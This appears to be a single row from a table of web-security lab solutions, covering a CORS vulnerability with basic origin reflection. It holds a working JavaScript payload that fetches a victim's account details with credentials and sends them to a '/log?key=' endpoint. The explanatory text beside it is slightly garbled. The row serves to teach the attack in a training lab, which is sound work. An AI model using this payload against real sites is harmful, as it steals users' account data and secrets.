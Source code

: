 |64    |CORS vulnerability with basic origin reflection                                                                          |<script>     var req = new XMLHttpRequest();     req.onload = reqListener;     req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);     req.withCredentials = true;     req.send();      function reqListener() {         location='/log?key='+this.responseText;     }; </script>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |Insecure CORS config that trusts all origins. Access-Control-Allow-Credentials Origin is reflected in the origin is reflected in the Access-Control-Allow-Originheader.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        |Apprentice, CORS                            |